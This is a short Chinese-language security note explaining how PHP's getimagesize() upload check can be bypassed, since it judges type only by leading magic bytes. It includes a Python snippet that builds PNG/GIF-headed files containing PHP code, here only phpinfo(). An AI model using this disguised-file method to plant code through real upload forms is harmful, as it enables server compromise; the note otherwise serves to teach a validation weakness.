 # 函数

## getimagesize图片验证绕过

### 参考

- https://0x1.im/blog/php/php-function-getimagesize.html

### 利用范围

- (PHP 4, PHP 5, PHP 7)

### 解析

```c
PHPAPI int php_getimagetype(php_stream * stream, char *filetype TSRMLS_DC)
{
	...
	if (!memcmp(filetype, php_sig_gif, 3)) {
		return IMAGE_FILETYPE_GIF;
	} else if (!memcmp(filetype, php_sig_jpg, 3)) {
		return IMAGE_FILETYPE_JPEG;
	} else if (!memcmp(filetype, php_sig_png, 3)) {
		...
	}
}

PHPAPI const char php_sig_gif[3] = {'G', 'I', 'F'};
...
PHPAPI const char php_sig_png[8] = {(char) 0x89, (char) 0x50, (char) 0x4e, (char) 0x47,
                                    (char) 0x0d, (char) 0x0a, (char) 0x1a, (char) 0x0a};
```

可以看出来 image type 是根据文件流的前几个字节（文件头）来判断的

### 测试

测试代码

```
<?php
print_r(getimagesize('test.php'));
```

利用python脚本生成文件

```python
with open('png.php','wb') as f:
    f.write(b'\x89PNG\r\n\x1a\n<?php phpinfo(); ?>')
with open('gif.php','wb') as f:
    f.write(b'GIF89a<?php phpinfo(); ?>')
```
